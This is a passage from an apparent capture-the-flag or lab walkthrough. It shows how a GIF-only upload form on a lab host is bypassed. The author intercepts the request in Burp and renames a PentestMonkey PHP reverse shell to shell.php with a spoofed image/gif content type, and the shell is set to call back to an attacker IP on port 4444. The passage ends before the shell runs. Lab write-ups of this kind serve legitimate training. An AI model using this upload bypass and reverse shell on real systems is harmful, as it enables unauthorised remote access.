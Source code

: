 This scan reveals the /dev directory. Navigating there presents the following:

Developer Area: Proceed with Caution

Description

-As of now, we are only accepting GIF files.

The file upload control apparently only accepts .gif files. Attempting to upload any other type of file generates an error (Sorry, GIF only!).

Let's try to upload a test GIF file. We'll just use a GIF file we located with a Google search. The upload succeeds, returning the message File is valid, and was successfully uploaded. In addition, we are presented with an UPLOADED link that leads to http://192.168.120.138:8080/dev/uploads/test.gif.

If we navigate there, we find our test image file. This indicates that once our file is accepted, it is saved to the /dev/uploads directory.
Exploitation
File Upload Vulnerability

Let's attempt a simple restriction bypass by intercepting our upload request and changing the content type of our file. First, we'll need to set up our web browser to use the Burp proxy.

We'll try to upload a PHP reverse shell from PentestMonkey, making sure to adjust the IP address and port number as needed.

kali@kali:~$ cp /usr/share/webshells/php/php-reverse-shell.php .
kali@kali:~$ 
kali@kali:~$ cat php-reverse-shell.php
...
$ip = '192.168.118.3';  // CHANGE THIS
$port = 4444;       // CHANGE THIS
...

Let's upload the reverse shell and intercept the request in our proxy. Our POST request should resemble the following:

...
-----------------------------253992999841778443251616883509
Content-Disposition: form-data; name="MAX_FILE_SIZE"

100000
-----------------------------253992999841778443251616883509
Content-Disposition: form-data; name="uploadedfile"; filename="php-reverse-shell.php"
Content-Type: application/x-php
...

Before forwarding the request to the server, we will adjust the file name to shell.php and Content-Type to image/gif like so:

...
-----------------------------253992999841778443251616883509
Content-Disposition: form-data; name="MAX_FILE_SIZE"

100000
-----------------------------253992999841778443251616883509
Content-Disposition: form-data; name="uploadedfile"; filename="shell.php"
Content-Type: image/gif
...
